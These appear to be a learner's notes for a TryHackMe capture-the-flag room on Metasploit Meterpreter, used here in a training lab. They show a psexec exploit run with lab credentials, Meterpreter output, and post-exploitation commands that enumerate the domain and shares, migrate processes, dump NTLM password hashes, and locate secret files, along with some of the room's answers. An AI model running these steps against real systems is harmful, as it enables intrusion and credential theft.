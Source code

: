 # Metasploit: Meterpreter
Link: https://tryhackme.com/room/meterpreter


msf5 exploit(windows/smb/psexec) > set SMBPass Password1
SMBPass => Password1
msf5 exploit(windows/smb/psexec) > set SMBUser ballen
SMBUser => ballen
msf5 exploit(windows/smb/psexec) > run


meterpreter > sysinfo
Computer        : HelloWorld
<!-- Computer        : ACME-TEST -->
OS              : Windows 2016+ (10.0 Build 17763).
Architecture    : x64
System Language : en_US
Domain          : FLASH
Logged On Users : 8
Meterpreter     : x86/windows
meterpreter > 

What is the computer name?


What is the target domain?

use post/windows/gather/enum_domain


What is the name of the share likely created by the user?

use post/windows/gather/enum_shares


What is the NTLM hash of the jchambers user?

migrate 772
hashdump

What is the cleartext password of the jchambers user?

https://crackstation.net/

Where is the "secrets.txt"  file located?

c:\Program Files (x86)\Windows Multimedia Platform\
What is the Twitter password revealed in the "secrets.txt" file?


Where is the "realsecret.txt" file located?

c:\inetpub\wwwroot\
What is the real secret?


